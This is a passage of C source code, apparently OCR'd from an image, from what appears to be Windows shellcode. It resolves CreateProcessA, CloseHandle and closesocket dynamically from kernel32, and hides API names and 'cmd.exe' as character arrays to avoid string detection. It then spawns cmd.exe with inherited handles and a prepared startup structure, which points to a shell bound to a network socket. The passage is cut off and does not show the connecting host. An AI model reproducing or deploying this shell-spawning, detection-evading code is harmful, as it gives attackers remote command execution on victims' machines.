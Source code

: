         BOOL                  bInheritHandles,
        DWORD                 dwCreationFlags,
        LPVOID                lpEnvironment,
        LPCSTR                lpCurrentDirectory,
        LPSTARTUPINFOA        lpStartupInfo,
        LPPROCESS_INFORMATION lpProcessInformation
    );

    _CreateProcessA = ( BOOL(WINAPI *)
    (
        LPCSTR                lpApplicationName,
        LPSTR                 lpCommandLine,
        LPSECURITY_ATTRIBUTES lpProcessAttributes,
        LPSECURITY_ATTRIBUTES lpThreadAttributes,
        BOOL                  bInheritHandles,
        DWORD                 dwCreationFlags,
        LPVOID                lpEnvironment,
        LPCSTR                lpCurrentDirectory,
        LPSTARTUPINFOA        lpStartupInfo,
        LPPROCESS_INFORMATION lpProcessInformation
    )) _GetProcAddress( (HMODULE)kernel32dll_base, createprocessa );

    if( NULL == _CreateProcessA )
    {
        // printf( "[!] Could not dynamically resolve CreateProcess()!\n" );
        return 1;
    }

    char process[] = { 'c', 'm', 'd', '.', 'e', 'x', 'e', '\0' }; 
    _CreateProcessA(NULL, process, NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);

    //
    // 5. WAIT FOR PROCESS TO EXIT (excluding for now, might not need - retest for future)
    // WaitForSingleObject(pi.hProcess, INFINITE);

    // 
    // 6. CLEAN UP
    // Dynamically resolve CloseHandle() function
    //
    char closehandle_string[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', '\0' };
    BOOL ( WINAPI * _CloseHandle )
    (
        HANDLE hObject
    );

    _CloseHandle = ( BOOL(WINAPI *)
    (
        HANDLE hObject
    )) _GetProcAddress( (HMODULE)kernel32dll_base, closehandle_string );

    if( NULL == _CloseHandle)
    {
        // printf( "[+] Could not dynamically resolve CloseHandle!\n" );
        return 1;
    }

    _CloseHandle(pi.hProcess);
    _CloseHandle(pi.hThread);
    
    //
    // Dynamically resolve closesocket() function
    //
    char closesocket_string[] = { 'c', 'l', 'o', 's', 'e', 's', 'o', 'c', 'k', 'e', 't', '\0' };
    int ( WINAPI * _closesocket )
    (
        SOCKET s
    );
